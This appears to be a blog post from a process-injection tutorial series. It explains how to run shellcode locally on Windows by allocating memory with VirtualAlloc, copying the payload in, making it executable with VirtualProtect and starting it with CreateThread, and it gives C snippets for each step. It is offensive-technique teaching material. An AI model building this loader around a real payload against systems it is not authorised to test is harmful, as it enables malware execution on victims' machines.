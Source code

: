 ```yaml
---
layout: post
title:  "Executing payload locally using shellcode."
---
```


### Executing payload locally using shellcode.

## Introduction

If you're delving into the world of shellcode execution, one of the simplest and direct approaches involves initiating its runtime through the creation of a new thread. This technique leverages Windows APIs such as VirtualAlloc, VirtualProtect, and CreateThread to efficiently run your shellcode. The focus here is on simplicity, with no emphasis on evasion or obfuscation techniques. Let's explore the basic steps to get you started on executing shellcode using threads.

## Section 1: Getting Started

Getting Started with Running Shellcode Using Threads

### Utilized functions from the Windows APIs
- VirtualAlloc: Reserves, commits, or changes the state of a region of pages in the virtual address space of the calling process

- RtlMoveMemory: Copies the contents of a source memory block to a destination memory block, and supports overlapping source and destination memory blocks.

- VirtualProtect: Changes the protection on a region of committed pages in the virtual address space of the calling process.

- CreateThread: Creates a thread to execute within the virtual address space of the calling process.

### Flow of the Program (key steps)

- Memory Allocation: A critical step involves reserving and committing memory for the payload using the VirtualAlloc function. The allocated memory, referred to as exec_mem, is initially set to read and write.

```c
void *exec_mem;
BOOL rv;
HANDLE th;
DWORD oldprotect = 0;
exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);```

- Copy Payload: The payload is then copied to the newly allocated buffer using the RtlMoveMemory function. This sets the stage for the actual execution.

```c
 RtlMoveMemory(exec_mem, payload, payload_len);```

- Memory Protection: To enable execution, the protection of the allocated memory is adjusted using VirtualProtect. The memory is now set to be executable and readable, paving the way for the payload's execution.

```c
rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);```

- Thread Creation: Assuming successful memory protection, a new thread (th) is spawned using CreateThread. The thread is tasked with executing the code residing at the address pointed to by exec_mem. To maintain control flow and observe the execution, the program waits for the created thread to finish using WaitForSingleObject.

```c
if (rv != 0) {
th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
WaitForSingleObject(th, -1);} ```

<iframe width="853" height="480" src="https://www.youtube.com/embed/RuDwyIZdduc" title="Process Injection 0 - Executing payload locally using shellcode." frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>



